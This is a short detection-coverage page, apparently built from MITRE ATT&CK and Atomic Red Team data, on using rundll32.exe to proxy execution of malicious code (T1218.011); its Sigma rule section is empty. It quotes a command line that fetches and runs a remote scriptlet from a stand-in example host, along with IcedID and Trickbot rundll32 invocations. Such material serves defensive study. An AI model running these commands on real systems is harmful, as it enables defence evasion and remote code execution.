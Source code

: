 
[back](../index.md)
Find sigma rule :x: 

# Attack: Rundll32 

Adversaries may abuse rundll32.exe to proxy execution of malicious code. Using rundll32.exe, vice executing directly (i.e. [Shared Modules](https://attack.mitre.org/techniques/T1129)), may avoid triggering security tools that may not monitor execution of the rundll32.exe process because of allowlists or false positives from normal operations. Rundll32.exe is commonly associated with executing DLL payloads.

Rundll32.exe can also be used to execute [Control Panel](https://attack.mitre.org/techniques/T1218/002) Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute. (Citation: Trend Micro CPL)

Rundll32 can also be used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1218.011


# Test : Execution of HTA and VBS Files using Rundll32 and URL.dll
## OS
  - windows


## Description:
IcedID uses this TTP as follows:
  rundll32.exe url.dll,OpenURL %PUBLIC%\index.hta
Trickbot uses this TTP as follows:
  rundll32.exe URL.dll,FileProtocolHandler C:\\..\\Detail\\akteullen.vbs

In this atomic, the sample hta file opens the calculator and the vbs file shows a message dialog with "rundll32 spawned wscript"


# Sigma Rule

